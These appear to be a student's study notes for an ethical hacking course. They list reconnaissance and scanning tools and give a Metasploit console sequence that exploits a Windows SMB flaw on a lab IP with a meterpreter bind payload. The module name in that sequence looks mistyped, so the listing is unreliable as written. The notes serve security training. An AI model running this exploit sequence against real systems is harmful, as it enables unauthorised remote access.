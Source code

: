 # Complete Ethical Hacking Bootcamp 2021: Zero to Mastery

https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery

## Section 4: Reconnaissance & Information Gathering
* ping
* whois
* nslookup
* https://ipinfo.info/
* whatweb
* theHarvester
* hunter.io
* sherlock

## Section 5: Scanning
* metasploitable
* arp
* netdiscover
* nmap

## Section 7: Vulnerability Analysis
* nmap scripts
* google search exploit
* searchsploit
* nessus

## Section 8: Exploitation & Gaining Access
* metasploit framework
  * msfconsole
```
msf6 > show exploits
msf6 > use exploits/windows/smb/ms06_640_netapi
msf6 exploit(windows/smb/ms06_640_netapi) > show info
msf6 exploit(windows/smb/ms06_640_netapi) > show options
msf6 exploit(windows/smb/ms06_640_netapi) > set RHOSTS 192.168.1.26
msf6 exploit(windows/smb/ms06_640_netapi) > show payloads
msf6 exploit(windows/smb/ms06_640_netapi) > set payload windows/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms06_640_netapi) > show targets
msf6 exploit(windows/smb/ms06_640_netapi) > set target 3
msf6 exploit(windows/smb/ms06_640_netapi) > exploit
msf6 exploit(windows/smb/ms06_640_netapi) > run
msf6 > search vsftpd
msf6 > sessions
msf6 > sessions -i <id>
```
* netcat
* telnet
* search routersploit

## Section 9: SMBGhost CVE 2020-0796 - Windows 10 Manual Exploitation
* https://rufus.ie/
